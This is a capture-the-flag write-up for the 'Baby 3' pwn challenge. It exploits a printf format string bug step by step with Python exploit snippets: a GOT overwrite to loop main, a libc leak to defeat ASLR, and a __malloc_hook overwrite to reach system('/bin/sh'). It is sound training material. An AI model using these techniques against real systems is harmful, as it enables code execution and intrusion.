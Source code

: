 # Baby 3

Categories: pwn baby pwned! <br/>
Description: When Swordfish came out, these were considered some state of the art techniques. Let's see if you have what it takes. <br/>
File: [baby3](baby3), [libc.so.6](libc.so.6)

## Solution

I didn't solve this challenge during the CTF but I will still publish my solution. It is largely based on [0xb0bb's
solution](https://gist.github.com/0xb0bb/ac3dcc46ab542313a1f2f0abff62e20a).

In this challenge we have a string format vulnerability:

```
mov rdx, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5 ; [0x602070:8]=0 ; FILE *stream
lea rax, [format]
mov esi, 0x80               ; 128 ; int size
mov rdi, rax                ; char *s
call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)

lea rax, [format]
mov rdi, rax                ; const char *format
mov eax, 0
call sym.imp.printf         ; int printf(const char *format)
```

Unfortunately `main` calls `exit` right after the `printf`:

```
mov edi, 0                  ; int status
call sym.imp.exit           ; void exit(int status)
```

The first step was to overwrite `exit@got` so that we can abuse the vulnerability again. Overwriting the last 12 bits of
`exit@got` allows us to rerun the `main` function:

```python
last12bits = str(int(hex(elf.sym['main'])[-3:], 16))
p.sendlineafter('input: ', '%' + last12bits + 'c%8$hn' + '.' * 5 + p64(elf.got['exit']))
```

To defeat ASLR I leaked an address and calculated the correct offset:

```python
def leak(addr):
    p.sendlineafter('input: ', '%7$s' + '.' * 4 + p64(addr))
    recv = p.recv().split('.')[0]
    return u64(recv.ljust(8, '\x00'))

leaked_fgets = leak(elf.got['fgets']);
libc.address = leaked_fgets - libc.sym['fgets']
```

The last step is to call `system` with `/bin/sh`. First I wrote `/bin/sh` to memory:

```python
def write(addr, toWrite):
    for i in range(len(toWrite)):
        value = ord(toWrite[i])

        if value == 0:
            value = 0x100

        p.sendline('%' + str(value).rjust(3, '0') + 'c%8$hhn' + '.' * 5 + p64(addr + i))
        p.recvuntil('input: ')

random_addr = 0x602080
write(random_addr, '/bin/sh')
```

After that I overwrote `__malloc_hook` which gets called when `malloc` is called:

```python
write(libc.sym['__malloc_hook'], p64(libc.sym['system']))
```

Now I can trigger `malloc` with `random_addr` as parameter to execute `system("/bin/sh")`:

```python
p.sendline('%' + str(random_addr - 0x20) + 'c')
```

Note that I had to subtract `0x20` from `random_addr` because [`malloc` is called with a number that is `0x20` bigger
than the actual `malloc` parameter](http://sourceware.org/git/?p=glibc.git;a=blob;f=stdio-common/vfprintf.c;h=6e0e85cd7cca9f4dfc9e86fb702db131ab2e1639;hb=HEAD#l1453).
The following example shows this behaviour:

```c
#include <malloc.h>

static void *my_malloc_hook (size_t, const void *);
static void *(*old_malloc_hook) (size_t, const void *);

static void *my_malloc_hook (size_t size, const void *caller) {
  __malloc_hook = old_malloc_hook;
  void *result = malloc(size);
  old_malloc_hook = __malloc_hook;

  printf("malloc(%u)\n", (unsigned int) size);
  __malloc_hook = my_malloc_hook;

  return result;
}

int main() {
  old_malloc_hook = __malloc_hook;
  __malloc_hook = my_malloc_hook;

  printf("%1000000c", 'x'); // calls malloc(1000032)
}
```

The complete exploit can be found [here](solution.py).
